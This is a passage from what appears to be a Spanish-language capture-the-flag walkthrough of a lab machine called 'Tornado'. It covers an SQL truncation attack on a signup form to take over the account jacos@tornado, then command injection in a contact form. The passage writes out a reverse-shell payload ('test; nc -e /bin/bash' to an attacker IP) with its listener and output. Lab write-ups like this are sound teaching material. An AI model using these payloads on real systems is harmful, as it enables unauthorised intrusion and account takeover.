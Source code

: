 ## Explotación

Como prueba de concepto, usando alguno de los correos que hemos encontrado. Vamos al panel de `signup` y lo introducimos con cualquier contraseña. Nos dice que el usuario ya existe.

![Captura](./Imágenes/atq_1.png)

Como este panel tiene una validación del lado del cliente y es algo que podemos cambiar lo hacemos poniendo por ejemplo 50

![Captura](./Imágenes/atq_2.png)

Ahora probamos el [[Ataque de Truncado SQL) que consiste para este caso en poner varios espacios después del correo y poner un carácter. De este modo es un usuario distinto que guardará en su base de datos pero como en realidad filtra por 13 caracteres lo que hará es modificar la contraseña del usuario existente. Esto es un **Ataque de Truncado SQL**

![Captura](./Imágenes/atq_3.png)

Vemos que ahora con las credenciales cambiadas podemos loguearnos como el usuario elegido, en este caso `jacos@tornado`

![Captura](./Imágenes/atq_4.png)

---

Ahora desde la pestaña `contact` tenemos un recurso que si lo trasteamos vemos que responde a una inyección de comando pues la página tarda 5 segundos en responder con un `test; sleep 5`

![Captura](./Imágenes/atq_5.png)

Podemos entonces enviarnos una **Reverse shell**  a nuestra máquina atacante

Acción: en nuestra terminal atacante

```bash
nc -lvnp 443
```

Acción: en el panel de `contact`

```bash
test; nc -e /bin/bash 192.168.1.66 443
```

Resultado:

```bash
nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.1.66] from (UNKNOWN) [192.168.1.63] 46854
whoami
www-data
```

Explicación: ganamos acceso a la máquina víctima. Para un tratamiento de la TTY seguir este apartado: [TTY Interactiva](../../../Técnicas/Tratamiento%20de%20la%20TTY/TTY%20Interactiva.md)

---
